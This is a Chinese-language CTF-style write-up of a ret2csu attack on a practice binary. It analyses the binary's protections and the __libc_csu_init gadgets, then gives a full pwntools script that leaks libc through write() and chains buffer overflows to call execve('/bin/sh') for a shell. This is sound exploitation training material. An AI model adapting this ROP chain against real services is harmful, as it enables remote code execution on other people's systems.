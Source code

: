 # Level 2 Writeup

## ret2csu复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 利用`__libc_csu_init`函数中的gadgets来实现64位程序的ROP攻击
- 利用`write`函数泄露`libc.so`在内存中的地址，从而找到`system`函数的地址
- 泄露共享库基地址
- 通过 got 表泄露共享库中函数的偏移地址
- 利用gadgets构造栈帧，通过ROP调用系统调用
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230425110337603](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251103650.png)

能够得知以下信息：

- 可执行文件为是一个64位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro查看反汇编反编译源码：

![image-20230425110558553](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251105579.png)

![image-20230425114418532](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251144551.png)

可以看`vulnerable_function()`函数中明显的缓冲区溢出漏洞入口`read()`，因此查找是否有可以利用的工具函数与字符串。但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。因此借鉴level1中题目思路利用libc中比较齐全的代码。

- 利用`write()`函数输出并计算libc.so在内存中的地址，从而找到`system()`的地址
- 然后再传递“/bin/sh”到.bss段
- 最后调用`system(“/bin/sh”)`

但在利用中遇到如下问题，本题为64位程序，无法通过栈向函数的前6个参数传值，只能通过寄存器传值。

![image-20230425111740513](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251117526.png)

然而使用ROPgadget并没有找到类似于`pop rdi, ret`,`pop rsi, ret`这样的gadgets。根据题目提示，可以使用所有调用lib.so的程序都会用来对libc进行初始化操作的`__libc_csu_init()`函数中的gadgets。

![image-20230425112106972](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251121009.png)

使用`objdump -d retcsu`观察`__libc_csu_init()`函数。可以看到

- 利用`0x400606`处的代码可以控制`rbx`、`rbp`、`r12`、`r13`、`r14`和`r15`的值
- 利用`0x4005f0`处的代码可以将`r15`的值赋值给`rdx`、 `r14`的值赋值给`rsi`、`r13`的值赋值给`edi`。`rdx`、`rsi`、`edi`恰好是64位程序函数调用传参的前三个寄存器，因此可以借此构造参数
- 上述位置随后调用了`call qword ptr [r12+rbx*8]`。若将`rbx`的值赋值为0，再通过精心构造栈上的数据，就可以控制`pc`寄存器调用任意函数。
- 执行完`call qword ptr [r12+rbx*8]`之后，程序会对`rbx+=1`，然后对比`rbp`和`rbx`的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让`rbp`和`rbx`的值相等，可以将`rbp`的值设置为1，从而实现gadgets的连续利用。

因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流
2. 利用`libc_csu_gadgets`获取`write`函数地址，通过`write`函数泄露出来，并使得程序重新执行`main`函数
3. 使用`libcsearcher`，基于`write`函数地址，获取对应libc版本以及`system`函数地址
4. 再次在`main`函数通过`gets()`构造缓冲区溢出攻击，劫持控制流
5. 利用栈溢出执行`libc_csu_gadgets`，调用`read`函数向.bss段写入`system`地址以及 '/bin/sh’ 地址，并使得程序重新执行`main`函数
6. 再次在`main`函数通过`gets()`构造缓冲区溢出攻击，劫持控制流
7. 利用栈溢出通过`libc_csu_gadgets`执行`system('/bin/sh')`弹出一个shell供攻击者使用

### 攻击复现

接下来实现攻击，同level 1中题目，要先确定`vulnerable_function()`函数返回地址。

![image-20230425115834949](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251158983.png)

在`call _read`的地址`0x000000000040055d`处下断点，可以看到：栈指针寄存器rsp此时的地址为`0x00007fffffffdd90`；基址指针寄存器rbp的地址为`0x00007fffffffdd10`。通过计算可得，s 相对于 rbp 的偏移为 `0x00007fffffffdd90-0x00007fffffffdd10=0x80`。此时内存结构如下图所示：

![image-20230425153726319](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251537381.png)

根据上述思路编写第一轮运行的payload，构造内存结果如下：

![image-20230425160142856](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251601918.png)

> 其中write函数的三个参数意义如下
>
> - 文件描述符，一般置1
> - 指定的缓冲区，即指针，指向一段内存单元；
> - 要写入文件指定的字节数；

接下来因为程序重新从main开始运行，继续构造第二轮运行的payload，需构造内存结果如下：

![image-20230425160147984](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251601019.png)

> 其中write函数的三个参数意义如下
> - 文件描述符，一般置1
> - 指定的缓冲区，即指针，指向一段内存单元；
> - 要写入文件指定的字节数；

接下来程序依然重新从main开始运行，继续构造第三轮运行的payload，需构造内存结果如下：

![image-20230425160813064](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251608094.png)

最终的payload如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher

ret2csu = ELF('./ret2csu')
sh = process('./ret2csu')

write_got = ret2csu.got['write']
read_got = ret2csu.got['read']
main_addr = ret2csu.symbols['main']
bss_base = ret2csu.bss()
csu_front_addr = 0x400600
csu_end_addr = 0x40061A

# First round - leak write address
sh.recvuntil(b'Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))
sleep(1)

# calculate libc_base and get the address of execve
write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')

# Second round - write /bin/sh to bss and call execve
sh.recvuntil('Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(read_got) + p64(0) + p64(bss_base) + p64(16) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))
sleep(1)

# Third round - call execve
sh.send(p64(execve_addr) + b'/bin/sh\x00')
sh.recvuntil('Hello, World\n')
sh.send(b'a' * 136 + p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_base) + p64(bss_base+8) + p64(0) + p64(0) + p64(0x4005F0) + b'a' * 56 + p64(main_addr))

sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230425163803564](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251638604.png)